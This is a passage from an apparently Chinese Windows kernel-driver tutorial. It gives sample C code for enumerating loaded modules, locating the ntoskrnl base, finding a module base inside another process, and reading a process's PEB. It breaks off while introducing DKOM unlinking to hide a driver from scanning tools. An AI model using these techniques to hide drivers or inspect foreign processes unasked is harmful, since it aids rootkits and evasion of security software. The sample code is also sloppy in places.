    SystemVhdBootInformation = 0x70,
    SystemCpuQuotaInformation = 0x71,
    SystemNativeBasicInformation = 0x72,
    SystemErrorPortTimeouts = 0x73,
    SystemLowPriorityIoInformation = 0x74,
    SystemBootEntropyInformation = 0x75,
    SystemVerifierCountersInformation = 0x76,
    SystemPagedPoolInformationEx = 0x77,
    SystemSystemPtesInformationEx = 0x78,
    SystemNodeDistanceInformation = 0x79,
    SystemAcpiAuditInformation = 0x7a,
    SystemBasicPerformanceInformation = 0x7b,
    SystemQueryPerformanceCounterInformation = 0x7c,
    SystemSessionBigPoolInformation = 0x7d,
    SystemBootGraphicsInformation = 0x7e,
    SystemScrubPhysicalMemoryInformation = 0x7f,
    SystemBadPageInformation = 0x80,
    SystemProcessorProfileControlArea = 0x81,
    SystemCombinePhysicalMemoryInformation = 0x82,
    SystemEntropyInterruptTimingInformation = 0x83,
    SystemConsoleInformation = 0x84,
    SystemPlatformBinaryInformation = 0x85,
    SystemThrottleNotificationInformation = 0x86,
    SystemHypervisorProcessorCountInformation = 0x87,
    SystemDeviceDataInformation = 0x88,
    SystemDeviceDataEnumerationInformation = 0x89,
    SystemMemoryTopologyInformation = 0x8a,
    SystemMemoryChannelInformation = 0x8b,
    SystemBootLogoInformation = 0x8c,
    SystemProcessorPerformanceInformationEx = 0x8d,
    SystemSpare0 = 0x8e,
    SystemSecureBootPolicyInformation = 0x8f,
    SystemPageFileInformationEx = 0x90,
    SystemSecureBootInformation = 0x91,
    SystemEntropyInterruptTimingRawInformation = 0x92,
    SystemPortableWorkspaceEfiLauncherInformation = 0x93,
    SystemFullProcessInformation = 0x94,
    SystemKernelDebuggerInformationEx = 0x95,
    SystemBootMetadataInformation = 0x96,
    SystemSoftRebootInformation = 0x97,
    SystemElamCertificateInformation = 0x98,
    SystemOfflineDumpConfigInformation = 0x99,
    SystemProcessorFeaturesInformation = 0x9a,
    SystemRegistryReconciliationInformation = 0x9b,
    MaxSystemInfoClass = 0x9c,
} SYSTEM_INFORMATION_CLASS;
```

最后的`JudgeLoadDriver()`是用于判断驱动是否加载的核心函数，我们看下该函数具体是如何实现的，原理很简单，下面是对代码的详细解释：

 - 1.首先定义了一个函数指针`NTQUERYSYSTEMINFORMATION m_NtQuerySystemInformation`，并初始化一个`UNICODE_STRING`类型的变量`NtQuerySystemInformation_Name`，用于存放要获取的函数名`NtQuerySystemInformation`。
 - 2.调用`MmGetSystemRoutineAddress`函数获取`NtQuerySystemInformation`函数的地址，并将其赋值给`m_NtQuerySystemInformation`函数指针。如果获取失败，则返回1。
 - 3.调用`m_NtQuerySystemInformation`函数，并传入`SystemModuleInformation`作为参数，获取系统中所有模块的信息。如果获取失败，则返回1。
 - 4.分配内存，并将获取到的模块信息复制到分配的内存中。如果内存分配失败，则返回1。
 - 5.解析获取到的模块信息，检查是否有名为`JudgeLoadDriver`的模块被加载。如果有，则打印该模块的名称，并返回2。如果没有，则继续检查下一个模块。
 - 6.最后释放分配的内存，并返回0表示成功执行。

```c
#include <ntifs.h>
#include <windef.h>
#include <stdlib.h>

typedef NTSTATUS(*NTQUERYSYSTEMINFORMATION)(
IN ULONG SystemInformationClass,
OUT PVOID   SystemInformation,
IN ULONG_PTR    SystemInformationLength,
OUT PULONG_PTR  ReturnLength OPTIONAL);

typedef struct _SYSTEM_MODULE_INFORMATION {
    HANDLE Section;
    PVOID MappedBase;
    PVOID Base;
    ULONG Size;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT PathLength;
    CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemBasicInformation = 0x0,
    SystemProcessorInformation = 0x1,
    SystemPerformanceInformation = 0x2,
    SystemTimeOfDayInformation = 0x3,
    SystemPathInformation = 0x4,
    SystemProcessInformation = 0x5,
    SystemCallCountInformation = 0x6,
    SystemDeviceInformation = 0x7,
    SystemProcessorPerformanceInformation = 0x8,
    SystemFlagsInformation = 0x9,
    SystemCallTimeInformation = 0xa,
    SystemModuleInformation = 0xb,
    SystemLocksInformation = 0xc,
} SYSTEM_INFORMATION_CLASS;

// 判断当前Driver是否加载成功
ULONG JudgeLoadDriver()
{
    NTQUERYSYSTEMINFORMATION m_NtQuerySystemInformation = NULL;
    UNICODE_STRING NtQuerySystemInformation_Name;
    PSYSTEM_MODULE_INFORMATION ModuleEntry;
    ULONG_PTR RetLength, BaseAddr, EndAddr;
    ULONG ModuleNumbers, Index;
    NTSTATUS Status;
    PVOID Buffer;
    RtlInitUnicodeString(&NtQuerySystemInformation_Name, L"NtQuerySystemInformation");
    m_NtQuerySystemInformation = (NTQUERYSYSTEMINFORMATION)MmGetSystemRoutineAddress(&NtQuerySystemInformation_Name);
    if (m_NtQuerySystemInformation == NULL)
    {
        DbgPrint("获取NtQuerySystemInformation函数失败！\n");
        return 1;
    }

    RetLength = 0;
    Status = m_NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &RetLength);
    if (Status < 0 && Status != STATUS_INFO_LENGTH_MISMATCH)
    {
        DbgPrint("NtQuerySystemInformation调用失败！错误码是：%x\n", Status);
        return 1;
    }

    Buffer = ExAllocatePoolWithTag(NonPagedPool, RetLength, 'lysh');
    if (Buffer == NULL)
    {
        DbgPrint("分配内存失败！\n");
        return 1;
    }

    Status = m_NtQuerySystemInformation(SystemModuleInformation, Buffer, RetLength, &RetLength);
    if (Status < 0)
    {
        DbgPrint("NtQuerySystemInformation调用失败 %x\n", Status);
        return 1;
    }

    ModuleNumbers = *(ULONG*)Buffer;
    ModuleEntry = (PSYSTEM_MODULE_INFORMATION)((ULONG_PTR)Buffer + 8);
    for (Index = 0; Index < ModuleNumbers; ++Index)
    {
        BaseAddr = (ULONG_PTR)ModuleEntry->Base;
        EndAddr = BaseAddr + ModuleEntry->Size;
        if (BaseAddr <= (ULONG_PTR)JudgeLoadDriver && (ULONG_PTR)JudgeLoadDriver <= EndAddr)
        {
            DbgPrint("模块名称是：%s\n", ModuleEntry->ImageName);
            return 2;
        }
        ++ModuleEntry;
    }

    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    ULONG ul = JudgeLoadDriver();

    DbgPrint("驱动状态: %d \n", ul);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码运行效果如下所示：



### 5.2 内核取KERNEL模块基址

模块是程序加载时被动态装载的，模块在装载后其存在于内存中同样存在一个内存基址，当我们需要操作这个模块时，通常第一步就是要得到该模块的内存基址，模块分为用户模块和内核模块，这里的用户模块指的是应用层进程运行后加载的模块，内核模块指的是内核中特定模块地址，本篇文章将实现一个获取驱动`ntoskrnl.exe`的基地址以及长度，此功能是驱动开发中尤其是安全软件开发中必不可少的一个功能。

关于该程序的解释，官方的解析是这样的`ntoskrnl.exe`是`Windows`操作系统的一个重要内核程序，里面存储了大量的二进制内核代码，用于调度系统时使用，也是操作系统启动后第一个被加载的程序，通常该进程在任务管理器中显示为`System`。

使用ARK工具也可看出其代表的是第一个驱动模块。



那么如何使用代码得到如上图中所展示的`基地址`以及`大小`呢，实现此功能我们需要调用`ZwQuerySystemInformation`这个API函数，这与上一篇文章`《判断自身是否加载成功》`所使用的`NtQuerySystemInformation`只是开头部分不同，但其本质上是不同的，如下是一些参考资料；

 - 从内核模式调用`Nt`和`Zw`系列API，其最终都会连接到`nooskrnl.lib`导出库:

   - Nt系列API将直接调用对应的函数代码，而Zw系列API则通过调用`KiSystemService`最终跳转到对应的函数代码。
   - 重要的是两种不同的调用对内核中`previous mode`的改变，如果是从用户模式调用`Native API`则`previous mode`是用户态，如果从内核模式调用`Native API`则`previous mode`是内核态。
   - 如果`previous`为用户态时`Native API`将对传递的参数进行严格的检查，而为内核态时则不会检查。

调用`Nt API`时不会改变`previous mode`的状态，调用`Zw API`时会将`previous mode`改为内核态，因此在进行`Kernel Mode Driver`开发时可以使用`Zw`系列API可以避免额外的参数列表检查，提高效率。`Zw*`会设置`KernelMode`已避免检查，`Nt*`不会自动设置，如果是`KernelMode`当然没问题，如果就`UserMode`就挂了。

回到代码上来，下方代码就是获取`ntoskrnl.exe`基地址以及长度的具体实现，核心代码就是调用`ZwQuerySystemInformation`得到`SystemModuleInformation`，里面的对比部分是在比较当前获取的地址是否超出了`ntoskrnl`的最大和最小范围。
```c
#include <ntifs.h>

static PVOID g_KernelBase = 0;
static ULONG g_KernelSize = 0;

#pragma pack(4)
typedef struct _PEB32
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    ULONG Mutant;
    ULONG ImageBaseAddress;
    ULONG Ldr;
    ULONG ProcessParameters;
    ULONG SubSystemData;
    ULONG ProcessHeap;
    ULONG FastPebLock;
    ULONG AtlThunkSListPtr;
    ULONG IFEOKey;
    ULONG CrossProcessFlags;
    ULONG UserSharedInfoPtr;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    ULONG ApiSetMap;
} PEB32, *PPEB32;

typedef struct _PEB_LDR_DATA32
{
    ULONG Length;
    UCHAR Initialized;
    ULONG SsHandle;
    LIST_ENTRY32 InLoadOrderModuleList;
    LIST_ENTRY32 InMemoryOrderModuleList;
    LIST_ENTRY32 InInitializationOrderModuleList;
} PEB_LDR_DATA32, *PPEB_LDR_DATA32;

typedef struct _LDR_DATA_TABLE_ENTRY32
{
    LIST_ENTRY32 InLoadOrderLinks;
    LIST_ENTRY32 InMemoryOrderLinks;
    LIST_ENTRY32 InInitializationOrderLinks;
    ULONG DllBase;
    ULONG EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING32 FullDllName;
    UNICODE_STRING32 BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY32 HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY32, *PLDR_DATA_TABLE_ENTRY32;
#pragma pack()

typedef struct _RTL_PROCESS_MODULE_INFORMATION
{
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR  FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES
{
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemModuleInformation = 0xb,
} SYSTEM_INFORMATION_CLASS;

// 取出KernelBase基地址
// By: lyshark.com
PVOID UtilKernelBase(OUT PULONG pSize)
{
    NTSTATUS status = STATUS_SUCCESS;
    ULONG bytes = 0;
    PRTL_PROCESS_MODULES pMods = 0;
    PVOID checkPtr = 0;
    UNICODE_STRING routineName;

    if (g_KernelBase != 0)
    {
        if (pSize)
            *pSize = g_KernelSize;
        return g_KernelBase;
    }

    RtlInitUnicodeString(&routineName, L"NtOpenFile");

    checkPtr = MmGetSystemRoutineAddress(&routineName);
    if (checkPtr == 0)
        return 0;

    __try
    {
        status = ZwQuerySystemInformation(SystemModuleInformation, 0, bytes, &bytes);
        if (bytes == 0)
        {
            DbgPrint("Invalid SystemModuleInformation size\n");
            return 0;
        }

        pMods = (PRTL_PROCESS_MODULES)ExAllocatePoolWithTag(NonPagedPoolNx, bytes, "lyshark");
        RtlZeroMemory(pMods, bytes);

        status = ZwQuerySystemInformation(SystemModuleInformation, pMods, bytes, &bytes);

        if (NT_SUCCESS(status))
        {
            PRTL_PROCESS_MODULE_INFORMATION pMod = pMods->Modules;

            for (ULONG i = 0; i < pMods->NumberOfModules; i++)
            {
                if (checkPtr >= pMod[i].ImageBase &&
                    checkPtr < (PVOID)((PUCHAR)pMod[i].ImageBase + pMod[i].ImageSize))
                {
                    g_KernelBase = pMod[i].ImageBase;
                    g_KernelSize = pMod[i].ImageSize;
                    if (pSize)
                        *pSize = g_KernelSize;
                    break;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return 0;
    }

    if (pMods)
        ExFreePoolWithTag(pMods, "lyshark");
    return g_KernelBase;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    PULONG ulong = 0;
    UtilKernelBase(ulong);
    DbgPrint("ntoskrnl.exe 模块基址: 0x%p \n", g_KernelBase);
    DbgPrint("模块大小: 0x%p \n", g_KernelSize);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

我们编译并运行上方代码，效果如下：



### 5.3 内核取应用层模块基址

在上一篇文章`《内核取ntoskrnl模块基地址》`中我们通过调用内核API函数获取到了内核进程`ntoskrnl.exe`的基址，当在某些场景中，我们不仅需要得到内核的基地址，也需要得到特定进程内某个模块的基地址，显然上篇文章中的方法是做不到的，本篇文章将实现内核层读取32位应用层中特定进程模块基址功能。

上一篇文章中的`PPEB32,PLIST_ENTRY32`等结构体定义依然需要保留，此处只保留核心代码，定义部分请看前一篇文章，自定义读取模块基址核心代码如下，调用`GetModuleBaseWow64()`用户需传入进程的`PROCESS`结构该结构可通过内核函数`PsLookupProcessByProcessId`获取到。

对于函数内部执行过程如下:

 - 1.根据传入的`EProcess`结构调用`KeStackAttachProcess`附加到该进程内。
 - 2.调用内核函数`PsGetProcessWow64Process`此函数可得到该进程空间内PEB结构数据。
 - 3.通过for循环遍历整个`pPeb->Ldr`链表，并在遍历过程中通过`RtlEqualUnicodeString`判断是否是我们需要的模块。
 - 4.如果判断是我们需要取出的模块名，则将`LdrEntry->DllBase`取出，此处取出的基地址也即是我们所需要的。
 - 5.比较结束后，通过调用`KeUnstackDetachProcess`这个内核模块脱离进程空间。

```c
ULONGLONG GetModuleBaseWow64(_In_ PEPROCESS pEProcess, _In_ UNICODE_STRING usModuleName)
{
    ULONGLONG BaseAddr = 0;
    KAPC_STATE KAPC = { 0 };
    KeStackAttachProcess(pEProcess, &KAPC);
    PPEB32 pPeb = (PPEB32)PsGetProcessWow64Process(pEProcess);
    if (pPeb == NULL || pPeb->Ldr == 0)
    {
        KeUnstackDetachProcess(&KAPC);
        return 0;
    }

    for (PLIST_ENTRY32 pListEntry = (PLIST_ENTRY32)((PPEB_LDR_DATA32)pPeb->Ldr)->InLoadOrderModuleList.Flink;
        pListEntry != &((PPEB_LDR_DATA32)pPeb->Ldr)->InLoadOrderModuleList; pListEntry = (PLIST_ENTRY32)pListEntry->Flink)
    {
        PLDR_DATA_TABLE_ENTRY32 LdrEntry = CONTAINING_RECORD(pListEntry, LDR_DATA_TABLE_ENTRY32, InLoadOrderLinks);

        if (LdrEntry->BaseDllName.Buffer == NULL)
        {
            continue;
        }

        // 当前模块名链表
        UNICODE_STRING usCurrentName = { 0 };
        RtlInitUnicodeString(&usCurrentName, (PWCHAR)LdrEntry->BaseDllName.Buffer);

        // 比较模块名是否一致
        if (RtlEqualUnicodeString(&usModuleName, &usCurrentName, TRUE))
        {
            BaseAddr = (ULONGLONG)LdrEntry->DllBase;
            KeUnstackDetachProcess(&KAPC);
            return BaseAddr;
        }
    }
    KeUnstackDetachProcess(&KAPC);
    return 0;
}
```
如上就是如何得到特定模块基址的方法，如下是入口函数的调用方法，首先通过传入`6164`这个PID号，得到进程`EProcess`结构，其次使用`RtlInitUnicodeString(&unicode, wchar_string)`初始化得到`kernel32.dll`字符串，最终调用`GetModuleBaseWow64`函数获取到进程`6164`中`kernel32.dll`的模块基地址信息。
```c
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    PEPROCESS pEProcess;
    HANDLE PID = (HANDLE)6164;

    // 初始化字符串
    UNICODE_STRING unicode;
    wchar_t *wchar_string = L"kernel32.dll";
    RtlInitUnicodeString(&unicode, wchar_string);

    // 取模块句柄
    PsLookupProcessByProcessId((HANDLE)PID, &pEProcess);
    ULONGLONG base32 = GetModuleBaseWow64(pEProcess, unicode);

    DbgPrint("ModuleBaseAddress: 0x%X \n", base32);


    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

这段代码输出效果如下所示:



### 5.4 内核通过PEB取进程参数

PEB结构`(Process Envirorment Block Structure)`其中文名是进程环境块信息，进程环境块内部包含了进程运行的详细参数信息，每一个进程在运行后都会存在一个特有的PEB结构，通过附加进程并遍历这段结构即可得到非常多的有用信息。

在应用层下，如果想要得到PEB的基地址只需要取`fs:[0x30]`即可，TEB线程环境块则是`fs:[0x18]`，如果在内核层想要得到应用层进程的PEB信息我们需要调用特定的内核函数来获取。

在内核层要获取应用层进程的PEB结构，可以通过以下步骤实现：

 - 1.调用内核函数`PsGetCurrentProcess`获取当前进程的`EPROCESS`结构。
 - 2.调用内核函数`KeStackAttachProcess`，附加到目标进程。
 - 3.调用内核函数`PsGetProcessWow64Process`，获取目标进程的PEB结构信息。
 - 4.通过`PEB`结构的`Ldr`成员可以访问到该进程加载的所有模块，遍历整个`Ldr`链表即可得到需要的模块信息。
 - 5.遍历完成后，通过调用`KeUnstackDetachProcess`函数脱离进程空间。

首先在开始写代码之前需要先定义好`PEB`进程环境快结构体，用于对内存指针解析，新建`peb.h`文件并保存如下代码，这些是微软的结构定义分为32位与64位，官方定义规范而已不需要费工夫。
```c
#pragma once
#include <ntifs.h>

typedef struct _CURDIR              // 2 elements, 0x18 bytes (sizeof) 
{
    /*0x000*/     struct _UNICODE_STRING DosPath; // 3 elements, 0x10 bytes (sizeof) 
    /*0x010*/     VOID*        Handle;
}CURDIR, *PCURDIR;

typedef struct _RTL_DRIVE_LETTER_CURDIR // 4 elements, 0x18 bytes (sizeof) 
{
    /*0x000*/     UINT16       Flags;
    /*0x002*/     UINT16       Length;
    /*0x004*/     ULONG32      TimeStamp;
    /*0x008*/     struct _STRING DosPath;             // 3 elements, 0x10 bytes (sizeof) 
}RTL_DRIVE_LETTER_CURDIR, *PRTL_DRIVE_LETTER_CURDIR;

typedef enum _SYSTEM_DLL_TYPE  // 7 elements, 0x4 bytes
{
    PsNativeSystemDll = 0 /*0x0*/,
    PsWowX86SystemDll = 1 /*0x1*/,
    PsWowArm32SystemDll = 2 /*0x2*/,
    PsWowAmd64SystemDll = 3 /*0x3*/,
    PsWowChpeX86SystemDll = 4 /*0x4*/,
    PsVsmEnclaveRuntimeDll = 5 /*0x5*/,
    PsSystemDllTotalTypes = 6 /*0x6*/
}SYSTEM_DLL_TYPE, *PSYSTEM_DLL_TYPE;

typedef struct _EWOW64PROCESS        // 3 elements, 0x10 bytes (sizeof) 
{
    /*0x000*/     VOID*        Peb;
    /*0x008*/     UINT16       Machine;
    /*0x00A*/     UINT8        _PADDING0_[0x2];
    /*0x00C*/     enum _SYSTEM_DLL_TYPE NtdllType;
}EWOW64PROCESS, *PEWOW64PROCESS;

typedef struct _RTL_USER_PROCESS_PARAMETERS                // 37 elements, 0x440 bytes (sizeof) 
{
    /*0x000*/     ULONG32      MaximumLength;
    /*0x004*/     ULONG32      Length;
    /*0x008*/     ULONG32      Flags;
    /*0x00C*/     ULONG32      DebugFlags;
    /*0x010*/     VOID*        ConsoleHandle;
    /*0x018*/     ULONG32      ConsoleFlags;
    /*0x01C*/     UINT8        _PADDING0_[0x4];
    /*0x020*/     VOID*        StandardInput;
    /*0x028*/     VOID*        StandardOutput;
    /*0x030*/     VOID*        StandardError;
    /*0x038*/     struct _CURDIR CurrentDirectory;                       // 2 elements, 0x18 bytes (sizeof)   
    /*0x050*/     struct _UNICODE_STRING DllPath;                        // 3 elements, 0x10 bytes (sizeof)   
    /*0x060*/     struct _UNICODE_STRING ImagePathName;                  // 3 elements, 0x10 bytes (sizeof)   
    /*0x070*/     struct _UNICODE_STRING CommandLine;                    // 3 elements, 0x10 bytes (sizeof)   
    /*0x080*/     VOID*        Environment;
    /*0x088*/     ULONG32      StartingX;
    /*0x08C*/     ULONG32      StartingY;
    /*0x090*/     ULONG32      CountX;
    /*0x094*/     ULONG32      CountY;
    /*0x098*/     ULONG32      CountCharsX;
    /*0x09C*/     ULONG32      CountCharsY;
    /*0x0A0*/     ULONG32      FillAttribute;
    /*0x0A4*/     ULONG32      WindowFlags;
    /*0x0A8*/     ULONG32      ShowWindowFlags;
    /*0x0AC*/     UINT8        _PADDING1_[0x4];
    /*0x0B0*/     struct _UNICODE_STRING WindowTitle;                    // 3 elements, 0x10 bytes (sizeof)   
    /*0x0C0*/     struct _UNICODE_STRING DesktopInfo;                    // 3 elements, 0x10 bytes (sizeof)   
    /*0x0D0*/     struct _UNICODE_STRING ShellInfo;                      // 3 elements, 0x10 bytes (sizeof)   
    /*0x0E0*/     struct _UNICODE_STRING RuntimeData;                    // 3 elements, 0x10 bytes (sizeof)   
    /*0x0F0*/     struct _RTL_DRIVE_LETTER_CURDIR CurrentDirectores[32];
    /*0x3F0*/     UINT64       EnvironmentSize;
    /*0x3F8*/     UINT64       EnvironmentVersion;
    /*0x400*/     VOID*        PackageDependencyData;
    /*0x408*/     ULONG32      ProcessGroupId;
    /*0x40C*/     ULONG32      LoaderThreads;
    /*0x410*/     struct _UNICODE_STRING RedirectionDllName;             // 3 elements, 0x10 bytes (sizeof)   
    /*0x420*/     struct _UNICODE_STRING HeapPartitionName;              // 3 elements, 0x10 bytes (sizeof)   
    /*0x430*/     UINT64*      DefaultThreadpoolCpuSetMasks;
    /*0x438*/     ULONG32      DefaultThreadpoolCpuSetMaskCount;
    /*0x43C*/     UINT8        _PADDING2_[0x4];
}RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;

typedef struct _PEB_LDR_DATA                            // 9 elements, 0x58 bytes (sizeof) 
{
    /*0x000*/     ULONG32      Length;
    /*0x004*/     UINT8        Initialized;
    /*0x005*/     UINT8        _PADDING0_[0x3];
    /*0x008*/     VOID*        SsHandle;
    /*0x010*/     struct _LIST_ENTRY InLoadOrderModuleList;           // 2 elements, 0x10 bytes (sizeof) 
    /*0x020*/     struct _LIST_ENTRY InMemoryOrderModuleList;         // 2 elements, 0x10 bytes (sizeof) 
    /*0x030*/     struct _LIST_ENTRY InInitializationOrderModuleList; // 2 elements, 0x10 bytes (sizeof) 
    /*0x040*/     VOID*        EntryInProgress;
    /*0x048*/     UINT8        ShutdownInProgress;
    /*0x049*/     UINT8        _PADDING1_[0x7];
    /*0x050*/     VOID*        ShutdownThreadId;
}PEB_LDR_DATA, *PPEB_LDR_DATA;

typedef struct _PEB64
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    ULONG64 Mutant;
    ULONG64 ImageBaseAddress;
    PPEB_LDR_DATA Ldr;
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
    ULONG64 SubSystemData;
    ULONG64 ProcessHeap;
    ULONG64 FastPebLock;
    ULONG64 AtlThunkSListPtr;
    ULONG64 IFEOKey;
    ULONG64 CrossProcessFlags;
    ULONG64 UserSharedInfoPtr;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    ULONG64 ApiSetMap;
} PEB64, *PPEB64;

#pragma pack(4)
typedef struct _PEB32
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    ULONG Mutant;
    ULONG ImageBaseAddress;
    ULONG Ldr;
    ULONG ProcessParameters;
    ULONG SubSystemData;
    ULONG ProcessHeap;
    ULONG FastPebLock;
    ULONG AtlThunkSListPtr;
    ULONG IFEOKey;
    ULONG CrossProcessFlags;
    ULONG UserSharedInfoPtr;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    ULONG ApiSetMap;
} PEB32, *PPEB32;

typedef struct _PEB_LDR_DATA32
{
    ULONG Length;
    BOOLEAN Initialized;
    ULONG SsHandle;
    LIST_ENTRY32 InLoadOrderModuleList;
    LIST_ENTRY32 InMemoryOrderModuleList;
    LIST_ENTRY32 InInitializationOrderModuleList;
    ULONG EntryInProgress;
} PEB_LDR_DATA32, *PPEB_LDR_DATA32;

typedef struct _LDR_DATA_TABLE_ENTRY32
{
    LIST_ENTRY32 InLoadOrderLinks;
    LIST_ENTRY32 InMemoryOrderModuleList;
    LIST_ENTRY32 InInitializationOrderModuleList;
    ULONG DllBase;
    ULONG EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING32 FullDllName;
    UNICODE_STRING32 BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    union
    {
        LIST_ENTRY32 HashLinks;
        ULONG SectionPointer;
    }u1;
    ULONG CheckSum;
    union
    {
        ULONG TimeDateStamp;
        ULONG LoadedImports;
    }u2;
    ULONG EntryPointActivationContext;
    ULONG PatchInformation;
} LDR_DATA_TABLE_ENTRY32, *PLDR_DATA_TABLE_ENTRY32;

#pragma pack()
```

接着就来实现对PEB的获取操作，以`64位`为例，我们需要调用`PsGetProcessPeb()`这个内核函数，因为该内核函数没有被公开所以调用之前需要头部导出，该函数需要传入用户进程的`EProcess`结构，该结构可用`PsLookupProcessByProcessId`函数动态获取到，获取到以后直接`KeStackAttachProcess()`附加到应用层进程上，即可直接输出进程的PEB结构信息，如下代码。
```c
#include "peb.h"
#include <ntifs.h>

// 定义导出
NTKERNELAPI PVOID NTAPI PsGetProcessPeb(_In_ PEPROCESS Process);

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}
// LyShark
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    NTSTATUS status = STATUS_UNSUCCESSFUL;
    PEPROCESS eproc = NULL;
    KAPC_STATE kpc = { 0 };

    PPEB64 pPeb64 = NULL;

    __try
    {
        // HANDLE)4656 进程PID
        status = PsLookupProcessByProcessId((HANDLE)4656, &eproc);

        // 得到64位PEB
        pPeb64 = (PPEB64)PsGetProcessPeb(eproc);

        DbgPrint("PEB64 = %p \n", pPeb64);

        if (pPeb64 != 0)
        {
            // 验证可读性
            ProbeForRead(pPeb64, sizeof(PEB32), 1);

            // 附加进程
            KeStackAttachProcess(eproc, &kpc);

            DbgPrint("进程基地址: 0x%p \n", pPeb64->ImageBaseAddress);
            DbgPrint("ProcessHeap = 0x%p \n", pPeb64->ProcessHeap);
            DbgPrint("BeingDebugged = %d \n", pPeb64->BeingDebugged);

            // 脱离进程
            KeUnstackDetachProcess(&kpc);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Driver->DriverUnload = UnDriver;
        return STATUS_SUCCESS;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

PEB64代码运行后，我们加载驱动即可看到如下结果:



而相对于64位进程来说，获取`32位`进程的PEB信息可以直接调用`PsGetProcessWow64Process()`函数得到，该函数已被导出可以任意使用，获取PEB代码如下。
```c
#include "peb.h"
#include <ntifs.h>

// 定义导出
NTKERNELAPI PVOID NTAPI PsGetProcessPeb(_In_ PEPROCESS Process);

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

// LyShark
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    NTSTATUS status = STATUS_UNSUCCESSFUL;
    PEPROCESS eproc = NULL;
    KAPC_STATE kpc = { 0 };

    PPEB32 pPeb32 = NULL;

    __try
    {
        // HANDLE)4656 进程PID
        status = PsLookupProcessByProcessId((HANDLE)6164, &eproc);

        // 得到32位PEB
        pPeb32 = (PPEB32)PsGetProcessWow64Process(eproc);

        DbgPrint("PEB32 = %p \n", pPeb32);

        if (pPeb32 != 0)
        {
            // 验证可读性
            ProbeForRead(pPeb32, sizeof(PEB32), 1);

            // 附加进程
            KeStackAttachProcess(eproc, &kpc);

            DbgPrint("进程基地址: 0x%p \n", pPeb32->ImageBaseAddress);
            DbgPrint("ProcessHeap = 0x%p \n", pPeb32->ProcessHeap);
            DbgPrint("BeingDebugged = %d \n", pPeb32->BeingDebugged);

            // 脱离进程
            KeUnstackDetachProcess(&kpc);
        }
        
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Driver->DriverUnload = UnDriver;
        return STATUS_SUCCESS;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

PEB32代码运行后，我们加载驱动即可看到如下结果:



### 5.5 内核断链隐藏驱动程序

与断链隐藏进程功能类似，关于断链进程隐藏可参考`《DKOM 实现进程隐藏》`这一篇文章，断链隐藏驱动自身则用于隐藏自身SYS驱动文件，当驱动加载后那么使用ARK工具扫描将看不到自身驱动模块，此方法可能会触发PG会蓝屏，在某些驱动辅助中也会使用这种方法隐藏自己。

要是实现隐层，具体步骤可被概述为如下几步；

DriverEntry函数是驱动程序的入口函数，当驱动程序被加载时，该函数会被操作系统自动调用。该函数接收两个参数：

 - Driver: 指向`DRIVER_OBJECT`结构的指针，用于描述驱动程序的属性和行为；
